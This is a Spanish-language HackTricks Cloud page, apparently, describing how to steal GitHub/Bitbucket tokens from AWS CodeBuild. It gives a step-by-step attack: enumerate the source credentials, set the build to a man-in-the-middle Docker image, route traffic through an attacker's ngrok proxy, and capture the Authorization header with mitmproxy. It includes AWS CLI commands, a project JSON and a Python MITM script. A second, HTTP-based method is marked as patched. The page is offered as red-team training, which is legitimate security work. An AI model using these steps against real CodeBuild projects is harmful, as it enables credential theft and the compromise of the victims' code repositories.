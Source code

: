 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay credenciales de origen configuradas que podrías filtrar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si encuentras que la autenticación, por ejemplo, a Github está configurada en la cuenta, puedes **exfiltrar** ese **acceso** (**token de GH o token de OAuth**) haciendo que Codebuild **utilice una imagen de docker específica** para ejecutar la construcción del proyecto.

Para este propósito, podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para establecer la **imagen de Docker**.

La imagen de Docker que podrías usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que establecerá las **variables de entorno `https_proxy`**, **`http_proxy`** y **`SSL_CERT_FILE`**. Esto te permitirá interceptar la mayor parte del tráfico del host indicado en **`https_proxy`** y **`http_proxy`** y confiar en el CERT SSL indicado en **`SSL_CERT_FILE`**.

1. **Crea y sube tu propia imagen de Docker MitM**
* Sigue las instrucciones del repositorio para establecer tu dirección IP de proxy y configurar tu certificado SSL y **construir la imagen de docker**.
* **NO CONFIGURES `http_proxy`** para no interceptar solicitudes al endpoint de metadatos.
* Podrías usar **`ngrok`** como `ngrok tcp 4444` para establecer el proxy en tu host.
* Una vez que tengas la imagen de Docker construida, **cárgala en un repositorio público** (Dockerhub, ECR...)
2. **Configura el entorno**
* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para usar la **imagen de Docker generada previamente**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Configura el proxy MitM en tu host**

* Como se indica en el **repositorio de Github**, podrías usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versión de mitmproxy utilizada fue 9.0.1**, se informó que con la versión 10 esto podría no funcionar.
{% endhint %}

4. **Ejecutar la construcción y capturar las credenciales**

*   Puedes ver el token en el encabezado de **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Esto también se podría hacer desde la aws cli con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~A través del protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Así que un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos se configuraron a través de OAuth, el **token temporal de OAuth utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto de CodeBuild apuntando a su máquina (por ejemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Luego, cambiar la URL del repositorio de github para usar HTTP en lugar de HTTPS, por ejemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Luego, ejecutar el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto señalado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usar más fácilmente que usando el servicio CodeBuild directamente.
{% endhint %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
